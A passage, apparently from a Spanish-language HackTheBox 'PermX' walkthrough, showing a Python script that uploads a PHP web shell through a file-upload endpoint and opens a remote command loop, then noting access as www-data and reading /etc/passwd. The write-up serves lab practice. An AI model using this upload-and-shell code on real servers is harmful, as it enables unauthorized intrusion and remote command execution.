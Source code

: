 ```python

        if cmd == "#EXIT":
            print("\t[!] SALIENDO...")
            break
        if req.ok:
            print(req.text)
        else:
            print("Error: "+str(req.status_code))
            exit(0)


def subirPayload():
    archivo = {'bigUploadFile': open('testRCE.php', 'rb')}
    pet = requests.post(HOST+ENDPOINT, files=archivo)
    if pet.ok:
        pet_shell = requests.get(HOST+FILEUPLOAD+"testRCE.php")
        if pet_shell.ok:
            print("\t[+] SHELL SUBIDA CON EXITO!")
            url = HOST+FILEUPLOAD+"testRCE.php"
            RCE(url)
        else:
            print("\t[!] A MI ME DA QUE NO")
    else:
        print("\t[!] NO SE HA PODIDO SUBIR LA SHELL")

if __name__ == "__main__":
    print(f"[!] Comprobando vuln")
    res=comprobarVulnerabilidad()
    res2=comprobarCarpetaSubidas()
    if res == True and res2 == True:
        print("\t[+] Es vulnerable")
        print("\t\t[!] ATACANDO")    
        subirPayload()
    else:
        print("[!] Creo que noup")
```

## Intrusion (Usuario)

Una vez que estamos dentro, podremos apreciar que somos el servidor web: **www-data**, por lo que nos queda buscar una forma de hacernos con el usuario de bajos privilegios.

Si damos un vistazo al **/etc/passwd**, encontramos al usuario **mtz**.
![](/assets/img/HTB_PermX/P10.png)